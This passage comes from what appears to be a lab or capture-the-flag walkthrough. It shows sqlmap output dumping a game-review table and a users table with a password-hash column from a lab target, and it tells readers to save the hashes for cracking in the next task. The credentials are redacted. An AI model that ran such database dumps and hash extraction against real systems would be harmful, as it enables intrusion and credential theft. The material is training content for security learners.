 ```
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[10:09:04] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.131.100/dump/db/post.csv'
[10:09:04] [INFO] fetching columns for table 'users' in database 'db'
[10:09:04] [INFO] fetching entries for table 'users' in database 'db'
[10:09:04] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:10:20] [INFO] writing hashes to a temporary file '/tmp/sqlmapvjwty2jg29121/sqlmaphashes-s0kx4152.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| <REDACTED>                                                       |<REDACTED>|
+------------------------------------------------------------------+----------+

[10:10:29] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.131.100/dump/db/users.csv'
[10:10:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.131.100'

[*] ending @ 10:10:29 /2022-01-25/
```

When it asks you the following make sure to select yes since we'll be cracking the hash in the next task:
```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
```
